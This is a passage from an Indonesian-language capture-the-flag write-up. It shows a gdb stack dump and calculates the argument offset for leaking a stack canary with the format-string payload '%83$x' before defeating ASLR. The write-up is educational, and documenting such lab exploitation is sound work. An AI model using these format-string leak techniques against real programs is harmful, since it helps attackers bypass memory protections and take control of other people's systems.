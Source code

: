 ```
0xffffcdd0:	0xf7de7438	0x0000093c	0xf7de7cc8	0xf7fcf110
0xffffcde0:	0xffffce34	0xffffce30	0x00000003	0x00000000
0xffffcdf0:	0xf7ffd000	0xf7de7cc8	0xf7dde012	0xf7de7438
0xffffce00:	0xf63d4e2e	0x08048304	0x7825ea71	0xffffce00
0xffffce10:	0xffffce34	0xf7fcf3e0	0x00000000	0x00000000
0xffffce20:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffce30:	0x00000000	0x00000000	0x000000c2	0x00000fff
0xffffce40:	0xf7fdf409	0xf63d4e2e	0xf7ffdaf8	0xffffcebc
0xffffce50:	0x00000000	0xf7fdff9b	0x0804823c	0xffffcebc
0xffffce60:	0xf7ffda9c	0x00000001	0xf7fcf410	0x61480001
0xffffce70:	0x78252069	0x00000a21	0xf7ffd940	0x000000c2
0xffffce80:	0x00000000	0x00ca0000	0x00000000	0xf7ffd000
0xffffce90:	0x00000000	0x00000000	0x00000000	0x00a95f00
0xffffcea0:	0x00000009	0xffffd177	0xf7e0a049	0xf7fb2748
0xffffceb0:	0xf7faf000	0xf7faf000	0x00000000	0xf7e0a1ab
0xffffcec0:	0xf7faf3fc	0x00000000	0x00000001	0x0804877b
0xffffced0:	0x00000001	0xffffcf94	0xffffcf9c	0x00a95f00
0xffffcee0:	0xffffcf00	0x00000000	0x00000000	0xf7df2e81
0xffffcef0:	0xf7faf000	0xf7faf000	0x00000000	0xf7df2e81
0xffffcf00:	0x00000001	0xffffcf94	0xffffcf9c	0xffffcf24
0xffffcf10:	0x00000001	0x00000000	0xf7faf000	0xf7fe575a
0xffffcf20:	0xf7ffd000	0x00000000	0xf7faf000	0x00000000
0xffffcf30:	0x00000000	0x419864fe	0x005ae2ee	0x00000000
0xffffcf40:	0x00000000	0x00000000	0x00000001	0x080484f0
0xffffcf50:	0x00000000	0xf7feada0	0xf7fe59b0	0xf7ffd000
0xffffcf60:	0x00000001	0x080484f0	0x00000000	0x08048511
0xffffcf70:	0x08048648	0x00000001	0xffffcf94	0x08048730
0xffffcf80:	0x08048790	0xf7fe59b0	0xffffcf8c	0xf7ffd940
0xffffcf90:	0x00000001	0xffffd177	0x00000000	0xffffd1bb
0xffffcfa0:	0xffffd1ef	0xffffd226	0xffffd23f	0xffffd250
0xffffcfb0:	0xffffd258	0xffffd263	0xffffd26f	0xffffd27e
0xffffcfc0:	0xffffd2b5	0xffffd2c9	0xffffd30b	0xffffd31f
0xffffcfd0:	0xffffd340	0xffffd357	0xffffd371	0xffffd3a0
0xffffcfe0:	0xffffd3b4	0xffffd3c6	0xffffd3d3	0xffffd3eb
0xffffcff0:	0xffffd41f	0xffffd43b	0xffffd44e	0xffffd46c
0xffffd000:	0xffffd487	0xffffd49c	0xffffd4b3	0xffffd4cb
```

Kita lihat address yang diprint oleh printf:
```
gdb-peda$ ni
Hai 8048803!
```

Nilai tersebut ada pada stack pada address 0xffffcd94, dan ini merupakan address argumen pertama. Sementara canary ada pada 0xffffcedc. 
Offset dari canary (0xffffcedc-0xffffcd94).
Berarti canary akan berada pada argumen ke (0xffffcedc-0xffffcd94)/4 +1 = 83.

Sekarang kita bisa leak canary dengan memasukkan `%83$x` pada input pertama.
Selanjutnya, karena kemungkinan ASLR aktif di server, kita tidak tahu address stack. Kita juga harus leak address dari stack.
